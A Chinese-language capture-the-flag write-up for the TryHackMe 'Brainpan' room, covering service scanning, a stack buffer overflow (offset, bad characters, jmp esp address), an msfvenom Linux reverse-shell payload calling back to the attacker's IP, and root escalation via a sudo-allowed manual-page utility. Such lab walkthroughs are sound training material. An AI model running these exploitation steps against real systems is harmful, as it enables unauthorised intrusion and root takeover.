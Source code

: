 # Brianpan

rainpan非常适合OSCP练习，强烈建议在考试前完成。通过分析 Linux 计算机上可切割的 Windows exe 来利用缓冲区溢出漏洞。如果你被困在这台机器上，不要放弃（或看写），只要更加努力。

---

这是一个定位难度：难 的房间，不过经过前面的缓冲区溢出练习，相信也不会有什么大问题

循例，nmap扫

    9999/tcp  open  abyss
    10000/tcp open  snet-sensor-mgmt

nc都连一下，10000端口是web服务，9999不知道是什么东西，不过按照以往经验，这玩意铁定存在栈溢出漏洞

既然开了web，我们循例也扫一下目录，因为主页就一张图片啥也没了

    gobuster dir --url http://10.10.84.134:10000/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt

扫出一个/bin，并且里面有个brianpan.exe,很好，要的就是它

下载之后，我们再次借助https://tryhackme.com/room/bufferoverflowprep 这个房间的win靶机帮助我们利用缓冲区溢出（第三次借用了🤣）

从Immunity Debugger中打开并运行brianpan.exe

    !mona config -set workingfolder c:\mona\%p

然后fuzz一波

    Fuzzing crashed at 600 bytes

在600字节上下崩了，我们生成700长度随机数据然后查找return addr

    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 700

    !mona findmsp -distance

结果：

    EIP contains normal pattern : 0x35724134 (offset 524)

### 控制EIP (return address)

我们填充524字节随机数据后，在后面再填充四字节 “BBBB”

成功覆盖EIP，此处就是return addr

### 找坏字符

生成\x00-\xff的字符集，将其追加到EIP后面

然后使用mona生成字节数组：

    !mona bytearray -b "\x00"

    !mona compare -f C:\mona\brainpan\bytearray.bin -a <esp_addr>

貌似没有坏字符，除了\x00 ，很幸运

### 寻找jmp esp指令地址

    !mona jmp -r esp -cpb "\x00"

小端序，将地址倒转

    311712F3 -> \xf3\x12\x17\x31

将地址覆盖掉return address即EIP

### 生成shellcode

题目开头那句话告诉我们这是linux机器

    msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.14.39.48 LPORT=8888 EXITFUNC=thread -b "\x00" -f c

将shellcode追加进return address的后面

我们可以在shellcode前面加一点

    \x90 * 16 或更多

nc开启监听，运行脚本，成功getshell

### 权限提升

升级shell

    python3 -c "import pty;pty.spawn('/bin/bash')"

看到sudo -l

    User puck may run the following commands on this host:
        (root) NOPASSWD: /home/anansi/bin/anansi_util

尝试了几次

    sudo /home/anansi/bin/anansi_util manual whoami
    whoami

进到了类似man这样的页面，随手一个：

    !/bin/bash

成功getroot，哈哈哈

<pre>root@brainpan:/usr/share/man# whoami
whoami
root</pre>



